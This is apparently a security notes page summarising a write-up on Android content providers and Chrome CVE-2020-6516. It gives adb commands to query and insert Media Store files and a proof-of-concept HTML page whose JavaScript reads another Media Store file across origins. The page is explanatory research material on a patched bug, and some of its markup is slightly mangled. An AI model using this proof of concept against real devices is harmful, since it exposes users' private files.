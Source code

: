 # Content Protocol in Android



**This is a summary of the post [[https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/|https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/]]**

### Listing Files in Media Store

To list files managed by the Media Store, the command below can be used:

```bash
$ content query --uri content://media/external/file
```
```
For a more human-friendly output, displaying only the identifier and path of each indexed file:

```bash
$ content query --uri content://media/external/file --projection _id,_data
```
```
Content providers are isolated in their own private namespace. Access to a provider requires the specific `content://` URI. Information about the paths for accessing a provider can be obtained from application manifests or the Android framework's source code.

### Chrome's Access to Content Providers

Chrome on Android can access content providers through the `content://` scheme, allowing it to access resources like photos or documents exported by third-party applications. To illustrate this, a file can be inserted into the Media Store and then accessed via Chrome:

Insert a custom entry into the Media Store:

```bash
cd /sdcard
echo "Hello, world!" > test.txt
content insert --uri content://media/external/file \
    --bind _data:s:/storage/emulated/0/test.txt \
    --bind mime_type:s:text/plain
```
```
Discover the identifier of the newly inserted file:

```bash
content query --uri content://media/external/file \
    --projection _id,_data | grep test.txt
# Output: Row: 283 _id=747, _data=/storage/emulated/0/test.txt
```
```
The file can then be viewed in Chrome using a URL constructed with the file's identifier.

For instance, to list files related to a specific application:

```bash
content query --uri content://media/external/file --projection _id,_data | grep -i <app_name>
```
```
### Chrome CVE-2020-6516: Same-Origin-Policy Bypass

The _Same Origin Policy_ (SOP) is a security protocol in browsers that restricts web pages from interacting with resources from different origins unless explicitly allowed by a Cross-Origin-Resource-Sharing (CORS) policy. This policy aims to prevent information leaks and cross-site request forgery. Chrome considers `content://` as a local scheme, implying stricter SOP rules, where each local scheme URL is treated as a separate origin.

However, CVE-2020-6516 was a vulnerability in Chrome that allowed a bypass of SOP rules for resources loaded via a `content://` URL. In effect, JavaScript code from a `content://` URL could access other resources loaded via `content://` URLs, which was a significant security concern, especially on Android devices running versions earlier than Android 10, where scoped storage was not implemented.

The proof-of-concept below demonstrates this vulnerability, where an HTML document, after being uploaded under **/sdcard** and added to the Media Store, uses `XMLHttpRequest` in its JavaScript to access and display the contents of another file in the Media Store, bypassing the SOP rules.

Proof-of-Concept HTML:

```xml
<html>
<head>
    <!--
title: PoC
-->

PoC
    <script type="text/javascript">
        function poc()
        {
            var xhr = new XMLHttpRequest();

            xhr.onreadystatechange = function()
            {
                if(this.readyState == 4)
                {
                    if(this.status == 200 || this.status == 0)
                    {
                        alert(xhr.response);
                    }
                }
            }

            xhr.open("GET", "content://media/external/file/747");
            xhr.send();
        }
    </script>
</head>

</html>
```
```



